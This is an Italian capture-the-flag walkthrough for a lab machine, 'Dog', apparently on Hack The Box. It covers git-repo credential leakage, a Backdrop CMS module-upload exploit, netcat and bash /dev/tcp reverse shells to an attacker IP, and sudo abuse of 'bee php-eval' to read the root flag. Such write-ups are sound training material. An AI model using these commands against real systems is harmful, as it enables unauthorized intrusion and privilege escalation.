 # 🐶 Dog CTF - Walkthrough

## 🔍 Ricognizione

Ho iniziato con una scansione **Nmap** per individuare le porte aperte e i servizi attivi sulla macchina target.

```bash
nmap -sC -sV -A 10.10.11.58
```

I risultati hanno mostrato due porte aperte:

- **Porta 22** → SSH
- **Porta 80** → HTTP

Durante la scansione, ho notato la presenza di una cartella `.git`, il che suggerisce che il sito web potrebbe avere un repository Git accessibile.

## 📂 Recupero del Repository Git

Utilizzando `git-dump`, ho scaricato il contenuto del repository presente nella cartella `.git`.

All'interno del repository, ho individuato un file `settings.php`, che contiene una **password**.

## 🔎 Identificazione di un Utente

Dopo aver trovato la password, ho cercato un possibile username. Esplorando il sito sulla porta 80, ho individuato un nome utente, ma non era associato alla password trovata.

Ho notato che le email degli utenti seguivano il formato `@dog.htb`, quindi ho eseguito una ricerca mirata all'interno del repository Git:

```bash
grep "@dog.htb" -r .
```

Questa ricerca ha rivelato l'utente **tiffany**. Ho provato ad accedere con la password trovata in `settings.php` e sono riuscito a entrare nel sistema.

## 🔥 Exploit per Backdrop CMS

Dopo ulteriori analisi, ho scoperto che il sito web utilizzava **Backdrop CMS**, e ho trovato un exploit disponibile su **Exploit-DB**:

🔗 [Backdrop CMS Exploit](https://www.exploit-db.com/exploits/52021)

Questo exploit consente di creare un modulo personalizzato che permette l'esecuzione di codice arbitrario.

Per creare il modulo ho utilizzato due file:

- `shell.info`
- `shell.php`

Questi file sono stati compressi in un archivio `.tar.gz` e caricati nel CMS.

Dopo l'installazione del modulo, ho navigato nella sezione **modules** ed eseguito `shell.php`, ottenendo l'esecuzione di comandi bash sul server.

## 🐚 Ottenere una Shell

Per stabilire una **reverse shell**, ho avviato un listener sulla mia macchina:

```bash
nc -lvnp 4444
```

E poi, dal server target, ho eseguito:

```bash
busybox nc 10.10.16.102 4444 -e sh
```

Una volta dentro la macchina, ho migliorato l'interattività della shell con:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ho quindi cercato gli utenti presenti nel sistema:

```bash
cat /etc/passwd
```

Ho individuato due utenti con una shell attiva, tra cui **johncusack**. Ho provato ad accedere tramite **SSH**:

```bash
ssh johncusack@10.10.11.58
```

Usando la password trovata in `settings.php`, sono riuscito ad accedere all'utente **johncusack** e recuperare la **flag user.txt**.

## 🚀 Privilege Escalation

Per verificare i permessi di **sudo**, ho eseguito:

```bash
sudo -l
```

Ho scoperto che l'utente **john** poteva eseguire il comando `bee`, che permette di eseguire **PHP** con privilegi elevati.

Dopo alcune ricerche, ho scoperto che `bee` necessitava del percorso di **Backdrop CMS**, che si trovava in `/var/www/html`.

A questo punto, ho eseguito dall'interno del percorso precedentemente trovato:

```bash
sudo bee php-eval 'echo(exec("cat /root/root.txt"))'
```

E ho ottenuto la **flag root.txt**! 🏆

### 🔄 Alternativa: Reverse Shell con Privilegi di Root

Un'alternativa per ottenere una shell con privilegi di root sarebbe stata eseguire:

```bash
sudo bee php-eval 'system("bash -c 'bash -i >& /dev/tcp/10.10.16.102/4444 0>&1'")'
```

## 🎯 Conclusione

Questa macchina è stata un'ottima sfida che ha richiesto un mix di tecniche di **enumerazione**, **exploit di Backdrop CMS**, **reverse shell**, e **privilege escalation** con `bee`. 🚀
